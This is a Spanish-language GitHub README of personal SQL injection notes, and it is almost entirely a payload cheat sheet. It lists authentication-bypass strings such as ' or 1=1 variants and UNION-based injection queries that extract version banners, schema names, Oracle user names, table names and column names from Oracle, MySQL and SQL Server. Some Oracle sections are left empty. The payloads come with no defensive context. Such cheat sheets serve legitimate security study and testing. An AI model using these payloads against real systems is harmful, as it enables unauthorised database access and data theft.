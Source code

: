 # SQL Injection
En este repositorio incluire mis notas de sql injection y algunos payloads utilizados por mi.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql

```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql

```


